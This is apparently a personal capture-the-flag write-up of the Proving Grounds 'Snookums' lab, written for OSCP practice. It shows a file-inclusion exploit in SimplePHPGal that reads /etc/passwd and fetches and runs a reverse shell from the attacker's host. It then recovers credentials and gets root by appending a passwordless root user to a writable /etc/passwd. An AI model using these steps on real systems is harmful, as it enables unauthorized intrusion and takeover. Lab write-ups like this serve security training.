 ```yaml
---
layout: writeup
title: Snookums - Proving Grounds
date: 2024-07-22 13:32:20 +0300
description: A Writeup of the Snookums Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


Today I'll be doing a walkthrough for Snookums, an Intermediate Proving Grounds box I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). As usual, I get started with an nmap scan and a quick search of the IP address in the URL bar in case there is a web server on port 80. And there is:

![Snookums_1.png](/assets/images/Snookums/Snookums_1.png){: .center-aligned width="600px"}

It looks like an image upload application, though I can't find any immediate way to upload it. I do a directory search and check the nmap scan results. 

```
Nmap scan report for 192.168.153.58
Host is up (0.21s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

I couldn't get anywhere with 21 (FTP allowed anonymous logon by kept hanging), 445 (no interesting shares on SMB), or 3306 (couldn't access from my IP - more on that later). In the directory search, the only thing that really sticks out is the README.txt file. 

![Snookums_2.png](/assets/images/Snookums/Snookums_2.png){: .center-aligned width="600px"}

This comes in handy because it makes it easier to find exploits. For example, when searching "Simple PHP" exploit-db returns 74 entries, but "Simple PHP Photo" returns 0. "SimplePHPGal" however, returns one, an RFI exploit. I use it to check the contents of `etc/passwd` using this search: `http://192.168.153.58/image.php?img=/etc/passwd`. This shows us a `michael` user, but unfortunately I can't find any ssh keys or a local.txt in michael's /home folder. I also tried looking around the server for config files, but I couldn't find anything at all. I also tried including a reverse shell from my machine, but I couldn't get it to execute, in retrospect perhaps because of the port (4444): `http://192.168.153.58/image.php?img=http://192.168.45.235/ivan4444.php`

 I started googling around for more, and I found this [exploit](https://github.com/beauknowstech/SimplePHPGal-RCE.py). I couldn't get it working either, but eventually I realized that the target would download the reverse shell when I served it from port 80, but not from port 4444 or 8080. I figured there must be some kind of firewall, so I served it from port 80 and had it call back to port 3306, assuming that would work because there is a MySQL server on the target. That worked.

After gaining access to the machine, I searched around and used my favorite autoenum scripts, linpeas and lse, but I didn't see anything particularly interesting for the `apache` user I had the shell for. I also noticed that I couldn't read michael's home folder, suggesting that maybe I would need to switch to that user prior to switching to root. Otherwise switching to root would be the only way to get both flags, unusual for a lab like this. I started manually enumerating the /var folder to see if I could find anything, and I found this in `/var/www/html/db.php`:

![Snookums_3.png](/assets/images/Snookums/Snookums_3.png){: .center-aligned width="600px"}

A root password - nice. Of course I tried `su root` immediately, but it didn't work, so I checked out the mysql databse with`mysql -u root -p` using the password above. I enumerated the databases and tables, ultimately using table: `SimplePHPGal`to  `SELECT * FROM users;` and find this: 

![Snookums_4.png](/assets/images/Snookums/Snookums_4.png){: .center-aligned width="600px"}

We know michael is a user on the box, so that's a start. These look like base64, but when I decoded the password associated with the user, it still looked like base64, so I decoded it again and got what looked more like a password. See the second line in the top box is the decoded hash of the first line (shown in the second box):

![Snookums_5.png](/assets/images/Snookums/Snookums_5.png){: .center-aligned width="600px"}

We are able to use this to `su michael` and even ssh. This get us the local.txt flag from michael's home folder. Because I got a new user, I run linpeas and lse again. Linpeas shows that `/etc/passwd` is writable. 

![Snookums_6.png](/assets/images/Snookums/Snookums_6.png){: .center-aligned width="600px"}

We can use that to add a new user called `pop2`: `echo "pop2::0:0::/root:/bin/bash" >> /etc/passwd`. Then we can switch to pop2 and gain root access:

![Snookums_7.png](/assets/images/Snookums/Snookums_7.png){: .center-aligned width="600px"}

And boom, we're done. Lessons learned: I need to do a better job of using ports that I know the target can use. For some of these boxes it doesn't matter at all, but it's been the sole reason certain exploits haven't worked on a few of them, and it just eats up so much time. Other than that, it just shows that it's important to do manual enumeration and re-enumerate once you get a new user. I liked this one. 

Update: I went back and retried the initial exploit from exploit-db. It works if you use two different ports that the target can connect to. You have to use two different ports, one to serve the reverse shell, and a different one for the shell itself, because the web server executes the file automatically. You can't use port 80 to serve, then close the simple server, then execute the shell which uses port 80. Working example using the Ivan Sincek shell on port 80 served from port 3306:
`http://192.168.153.58/image.php?img=http://192.168.45.235:3306/ivan80.php
Glad I went back to confirm, now I know. 